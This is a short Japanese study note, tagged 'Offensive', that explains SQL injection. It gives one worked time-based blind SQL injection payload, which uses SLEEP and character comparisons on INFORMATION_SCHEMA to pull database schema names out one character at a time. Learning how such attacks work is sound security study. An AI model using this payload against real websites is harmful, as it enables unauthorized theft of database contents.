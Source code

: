 ```yaml
---
tags:
  - Offensive
---
```

# SQLインジェクション

ユーザーが入力できる場所（フォーム、GETリクエストの引数、etc...）からの入力をサニタイジングせずにSQLクエリを実行してしまう脆弱性を悪用した攻撃。

実行した結果のデータがWebサイトに表示されてしまう。表示の仕方によっては、データの漏洩はあまり起こらない場合もある。

ブラインドインジェクションでは、サーバーがアクセスできるすべてのデータが漏洩する可能性がある。

## SQLインジェクションの種類

1. ### Time-Based Blind SQL Injection
	```sql
	SELECT * FROM something 
	WHERE id = 'a' 
	-- ここから追加される
	AND (SELECT 5453 
	     FROM (SELECT(SLEEP(10-(IF(ORD(MID((SELECT DISTINCT(IFNULL(CAST(schema_name AS NCHAR),0x20)) 
	                               FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 1,1),12,1))>104,0,10)))))batJ) 
	AND 'iotZ'='iotZ'
	
	```
	本来のクエリに続けて、*INFORMATION_SCHEMA*等から取得したデータベース情報のn文字目が、ASCIIコードより大きければx秒スリープし、レスポンスを遅らせることで、二分探索をしながら一文字ずつ絞っていく。
